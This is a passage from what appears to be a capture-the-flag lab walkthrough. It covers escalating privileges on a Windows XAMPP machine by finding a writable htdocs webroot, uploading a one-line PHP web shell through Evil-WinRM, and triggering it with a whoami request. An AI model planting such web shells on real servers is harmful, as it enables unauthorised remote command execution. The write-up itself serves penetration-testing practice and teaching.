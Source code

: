 We check the permissions set for the `htdocs` directory. htdocs folder is where Apache typically has its webroot.

```shell
*Evil-WinRM* PS C:\xampp> icacls htdocs
htdocs NT AUTHORITY\LOCAL SERVICE:(OI)(CI)(F)
       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
       BUILTIN\Administrators:(I)(OI)(CI)(F)
       BUILTIN\Users:(I)(OI)(CI)(RX)
       BUILTIN\Users:(I)(CI)(AD)
       BUILTIN\Users:(I)(CI)(WD)
       CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

Both the SYSTEM account and the Administrators group have full control over the directory and its contents. Users group has read and execute permissions on the directory and its child objects, along with append data and write data permissions specifically on the directory itself.

This misconfiguration could allow us to drop a PHP script into this directory and execute it via a web browser, potentially leading to the acquisition of a privileged shell as an Administrator.

We start off by creating a script to run command using PHP.

```shell
labadmin@labmachine:~/hospital$ cat payload.php
<?php system($_REQUEST['cmd']); ?>
```

Next we upload it.

```shell
*Evil-WinRM* PS C:\xampp\htdocs> upload payload.php

Info: Uploading /home/labadmin/hospital/payload.php to C:\xampp\htdocs\payload.php

Data: 44 bytes of 44 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\xampp\htdocs> type payload.php
<?php system($_REQUEST['cmd']); ?>
```

We call it with `whoami` command via the web browser `https://10.10.11.241/payload.php?cmd=whoami`.

![hospital12](./assets/hospital12.png)
